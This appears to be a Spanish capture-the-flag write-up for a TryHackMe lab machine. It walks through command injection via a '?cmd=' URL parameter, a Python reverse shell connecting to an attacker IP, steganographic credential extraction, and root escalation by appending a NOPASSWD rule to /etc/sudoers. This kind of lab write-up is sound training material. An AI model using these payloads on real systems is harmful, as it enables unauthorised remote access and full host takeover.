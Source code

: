 ```yaml
---
title: HighSchool
description: Write Up de la máquina High School de la plataforma TryHackMe
published: true
date: 2025-05-11T11:57:58.747Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:54:10.908Z
---
```


# U. A. HighSchool
Bienvenido al write up de la maquina HighSchool de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un analisis de los puertos disponibles donde encontramos tanto el puerto 22, como el puerto 80.
```
nmap -sT -Pn -sV 10.10.229.240
```
IMAGEN 1

Así que vamos a entrar en el website, para saber que hay.

Podemos empezar a hacer uso del dirb para comprobar las entradas a los que tenemos acceso.
```
dirb http://{IP}
```
IMAGEN 2

Dentro del analisis hemos encontrado la carpeta assest, aquí vamos a entrar a comprobar que mas cosas interesantes podemos encontrar.

IMAGEN 3

Se carga una página pero aparantemente está vacía por lo que vamos a hacer intentar modificar el URL con un ?cmd, por ejemplo:
?cmd=id

IMAGEN 4

Como podemos observar, nos da una serie de caracteres aparentemente aleatorio, pero aparienta estar cifrado en base64, por lo que vamos a decodificarlo.

IMAGEN 5

El resultado era el esperado, ahora deberemos intentar hacer una shell reversa para tener acceso, ya que la url interpreta comandos.

## Explotación
Podemos intentar hacer una URL con:
*?cmd=export RHOST="10.9.3.144";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'*

IMAGEN 6

Como podemos observar, tenemos acceso por lo que la shell reversa ha funcionado perfectamente.

IMAGEN 7

Vamos a securizar la shell para ello ponemos:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

IMAGEN 8

Tras acceder, vamos a mirar lo que hay en la carpeta /var/www, ya que a lo mejor aloja otro servicio.
IMAGEN 9

Sin embargo está cifrada, por lo que deberemos emplear alguna herramienta para descifrarla.

IMAGEN 10

Una vez realizado, podemos observar como la contraseña es "AllmightForEver!!!"

Sin embargo, creemos que está contraseá corresponderá a alguna imagen, vamos a mirar que imagenes hay en el servidor activo.

IMAGEN 11

Como podemos observar tenemos dos imagenes, vamos a obtenerla en nuestra Kali, con un wget.

IMAGEN 12

Si nos digimos a las imagenes, podemos observar como yuei.jpg si que está correcta, sin embargo oneforall.jpg, está corrompida.

IMAGEN 13

Para arreglarla, vamos a usar una herramienta llamada MagicBytes, del github Haxrein.

para ello haremos:
```
git clone https://github.com/Haxrein/MagicBytes.git
```

IMAGEN 14

Una vez clonado el Git, vamos a usarlo para reparar la imagen mediante el siguiente comando:
```
python3 magicbytes.py -i {ruta del archivo} -m jpg
```

IMAGEN 15

Ahora si que podriamos usar steghide, para sacar la esteganografía detras de la imagen.

Para ello vamos a hacer uso de steghide de la siguiente manera:
```
steghide extract -sf {imagenes}
```
Y cuando nos pidan la passphrase, podemos usar la que anteriormente hemos obtenido 

IMAGEN 16

Como podemos observar, ha funcionado con oneforall.jgp, sin embargo con yuei.jpg, no.

Obtenemos leemos el archivo mediante un cat creds.txt.

IMAGEN 17

Tras esto podemos leer que tenemos unas credenciales y podemos loguearnos como el usuario "deku".

IMAGEN 18

Nos dirigimos al home del usuario y encontraremos la primera flag.


IMAGEN 19



Ahora vamosa intentar escalar privilegios, para ello vamos a hacer uso de

```
sudo -l
```

IMAGEN 20

Como podemos observar, podemos ejecutar un script llamado feedback, como root, vamos a leerlo.


IMAGEN 21

El script hace lo siguiente paso por paso:
1. Saluda al usuario
2. Lee un parametro llamado feedback
3. Si el feedback tiene una serie de caracteres previlegios, da un error.
4. Si el feedback es correcto, lo escribe por pantalla y lo guarda en un archivo llamado /var/log/feedback.txt

Para saltarnos está restricción podemos hacer varias cosas, una de ellas puede ser:
- Escribir en /etc/sudoers privilegios a nuestro usuario.

Para ello vamos a poner "deku ALL=NOPASSWD: ALL >> /etc/sudoers"

IMAGEN 22

Tras esto podemos observar como tenemos root, y podemos leer la última flag.
IMAGEN 23